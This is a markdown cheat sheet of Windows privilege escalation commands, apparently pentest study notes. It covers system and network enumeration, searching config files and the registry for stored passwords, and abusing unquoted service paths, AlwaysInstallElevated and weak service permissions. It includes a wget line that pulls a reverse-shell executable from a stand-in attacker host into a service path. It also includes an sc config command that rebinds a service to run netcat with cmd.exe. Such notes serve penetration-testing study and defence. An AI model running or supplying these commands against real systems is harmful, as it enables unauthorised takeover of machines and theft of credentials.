 # Windows Privilege Escalation

Windows privilege escalation commands.

Other guides just in case:
* https://sushant747.gitbooks.io/total-oscp-guide/privilege_escalation_windows.html
* http://www.fuzzysecurity.com/tutorials/16.html
* https://github.com/xapax/security/blob/master/privilege_escalation_windows.md
* https://guif.re/windowseop?fbclid=IwAR0jmCV-uOLaUJCnKiGB2ZaDt9XZwlAGM3nTOH0GkS6c0hS63FFSGm97Tdc


### 1. SYSTEM INFORMATION + ACCOUNTS

```powershell
$ systeminfo | findstr /C:"OS Name" /C:"OS Version" /C:"Logon Server"
$ echo %username%         # current user
$ whoami                  # current user
$ set                     # env variables
$ net users               # return a list of all user accounts on the system
$ net user [user]         # return detailed info about a user
```

### 2. NETWORKING

```powershell
$ ipconfig /all           # show details for all network interfaces, physical and logical
$ route print             # show the routing table - set of rules to determine where packets will be directed
$ arp -A                  # show the ARP cache table - a cache of IP / unique MAC address pairs in a single LAN

$ netstat -ano                # show current TCP/IP network connections
$ netsh firewall show state   # show firewall state
$ netsh firewall show config  # show firewall configuration
```

### 3. WINDOWS TASKS

TAKE THE TIME TO INSPECT ALL BINPATHS FOR WINDOWS SERVICES, SCHEDULED TASKS AND STARTUP TASKS.
```powershell
$ schtasks /query /fo LIST /v   # show scheduled tasks (verbose)

$ tasklist /SVC                 # show running processes / associated services

$ net start                     # start Windows services

$ driverquery                   # show 3rd-party drivers

$ net user %username%           # show info about user
```

### 4. QUICK WINS

Missing Windows patches:
1. `wmic qfe get Caption,Description,HotFixID,InstalledOn` (mostly not available to non-admins)
2. Find Windows privesc exploits.
3. Grep for their existence in the output of `wmic` (using KB numbers)
4. If any exploits are missing from the patchlist, use them and profit.

Hardcoded redentials in config files:
```powershell
# LEVEL 1
$ type C:\sysprep.inf
$ type C:\sysprep\sysprep.xml
$ type %WINDIR%\Panther\Unattend\Unattended.xml
$ type %WINDIR%\Panther\Unattended.xml

# LEVEL 2
$ dir /s *pass* == *cred* == *vnc* == *.config*

# LEVEL 3 (.xml .ini .txt)
$ findstr /si password *.xml *.ini *.txt

# LEVEL 4 (in registry)
$ reg query HKLM /f password /t REG_SZ /s
$ reg query HKCU /f password /t REG_SZ /s
```

"AlwaysInstallElevated": this setting allows users of any priv to install .msi files as SYSTEM.
```powershell
# Output of both commands need to = 1
$ reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
$ reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
```


### 5. WINDOWS SERVICES, FILE/FOLDER PERMISSIONS

For restarting services or binaries, try various methods to restart:  
__TRY TO REBOOT THE SYSTEM ITSELF VIA. CMD IF SERVICE RESTARTS DONT TRIGGER YOUR PAYLOAD__
```powershell
$ net start
$ sc start
$ mysql> RESTART;    # using service commands itself to restart
```

Unquoted service paths:  
A service is vulnerable path to the executable has a space in the filename and the file name is not wrapped in quote marks; exploitation requires write permissions to the path before the quote mark.
```powershell
# SCENARIO 1
$ wmic service get name,pathname        # Find possible vulnerable services
SERVICENAME           PATH
. . .                 . . .
PFNet                 C:\Program Files\Privacyware\PrivFirewall 7.0\pfw.exe
. . .                 . . .
$ wmic service get pathname,startname   # Check if service runs with Admin privileges
$ wget http://attacker.com/rshell.exe -O C:\Program Files (x86)\Privacyware\PrivFirewall.exe   # Transfer rshell to path
$ net start service / reboot computer /


```

Windows weak service permissions:
```powershell
$ sc qc [servicename]               # query service

$ accesschk.exe /accepteula         # DO THIS FIRST
$ accesschk.exe -ucqv UPNPHOST      # check required priv for every service using accesschk.exe
$ accesschk.exe -uwcqv "Authenticated Users" * # find services which allow access for "Authenticated Users"
```

Reconfigure Windows services to escalate privileges:
```powershell
$ sc config upnphost binpath= "C:\nc.exe -nv 127.0.0.1 9988 -e C:\WINDOWS\System32\cmd.exe"
$ sc config upnphost obj= ".\LocalSystem" password= ""
$ net start upnphost
```

File and folder permissions:
* Look for weak permissions such as "NT AUTHORITY\AUTHENTICATED USERS: I M"
* For binaries that load with SYSTEM privileges, replace with your own binary.
```powershell
$ icacls [file or folder path]
$ cacls [file or folder path]
$ accesschk.exe -dqv [file or folder path]
```

Find all weak folder permissions per drive:
```powershell
$ echo Finding all weak folder permissions per drive
$ accesschk.exe -uwdqs Users c:\ /accepteula
$ accesschk.exe -uwdqs "Authenticated Users" c:\
```

Find all weak file permissions per drive:
```powershell
$ accesschk.exe -uwqs Users c:\*.* /accepteula
$ accesschk.exe -uwqs "Authenticated Users" c:\*.*
```

Check PATH system variable:
* All non-default directories in root `C:\` will give WRITE access to the Authenticated Users group!!!
* Look for non-default dirs in `%path%`
